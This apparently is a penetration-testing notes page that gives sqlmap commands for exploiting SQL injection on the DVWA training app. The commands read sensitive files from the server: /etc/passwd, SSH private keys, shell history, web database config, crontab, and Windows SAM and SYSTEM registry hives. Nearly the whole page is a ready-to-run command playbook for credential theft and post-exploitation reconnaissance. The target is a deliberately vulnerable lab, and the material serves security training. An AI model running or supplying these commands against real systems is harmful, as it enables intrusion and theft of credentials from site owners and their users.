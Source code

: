 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - post-exploitation
  - server-side-attack
  - sql-injection
  - enumeration-and-discovery
  - privilege-escalation
  - credential-access-and-dumping
  - sqlmap
  - dvwa
---
```

# 03 - OS Enumeration

## 3.1 - Cross Platform

> [!IMPORTANT] Conditions
> The DB user must have **FILE** and **SELECT** privileges perform with the flags `--privileges -U CU`.
> > [!NOTE]
> > Not all files are readable unless the current user is `root@<IP>` (e.g. `root@localhost`). You'll notice that you can't fetch SSH credentials which is normal due to security reasons.

Enumerate hostname.

```
$ sqlmap "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --hostname
```

## 3.2 - Linux

### 3.2.1 - Basic Information

Enumerating user accounts

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/etc/passwd"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --sql-query="SELECT LOAD_FILE('/etc/passwd')"
```

Enumerate user groups

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/etc/group"
```

Local IPv4 address

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/etc/network/interfaces"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/etc/sysconfig/network"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/etc/networks"
```

DNS resolve and nameserver IPs

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/etc/resolv.conf"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/etc/hosts"
```

Environment variables may contain **sensitive information**. You never know that sometimes the sysadmins can be lazy sometimes.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/etc/profile"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/etc/bash.bashrc"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/home/<username>/.bash_profile"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/root/.bash_profile"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/home/<username>/.bashrc"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/root/.bashrc"
```

Enumerate installed packages that will give you an idea of what services are installed.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/var/log/dpkg.log"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/var/log/yum.log"
```

Enumerate Linux kernel for potential exploits.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/etc/lsb-release"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/etc/os-release"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/proc/version"
```

### 3.2.2 - Credentials

Retrieve SSH keys.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/home/<username>/.ssh/id_rsa"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/root/.ssh/id_rsa"
```

Retrieve database config file. You have to lookup of what web technology it's using such as, a **content management system (CMS)** like wordpress. Find the absolute path of the [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Linux/Local Privilege Escalation/Credentials/Config Files/Webapps/Living off the Land#^bc9e6e|database config file]] after enumeration phase for the web root directory.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/var/www/html/dvwa/config.php"
```

Retrieve history commands. You can find more in the [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Linux/Local Privilege Escalation/Credentials/Config Files/Webapps/Living off the Land|privilege escalation credentials]] section.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/home/<username>/.ssh/.bash_history"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/root/.ssh/.bash_history"
```

### 3.2.3 - Privilege Escalation

CronJobs may contain backup files that is worth **harvesting the data**. Moreover, there is a possible attack vector to spawn a callback shell. Be on the lookout.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/etc/crontab"
```

### 3.2.4 - Config Files

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/etc/ssh/sshd_config"
```

### 3.2.5 - Hardware

Check uptime

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/proc/uptime"
```

Enumerate mounted drives and network shares.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/etc/fstab"
```

Enumerate CPU cores

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="/proc/cpuinfo"
```

## 3.3 - Windows

### 3.3.1 - Basic Information

DNS resolve and nameserver IPs

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="C:/Windows/System32/drivers/etc/hosts"
```

### 3.3.2 - Credentials

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="C:/Windows/Repair/SAM"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="C:/Windows/Repair/SYSTEM"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="C:/Windows/System32/config/security"
           
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="C:/Windows/System32/config/system"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-read="C:/Windows/System32/config/sam"
```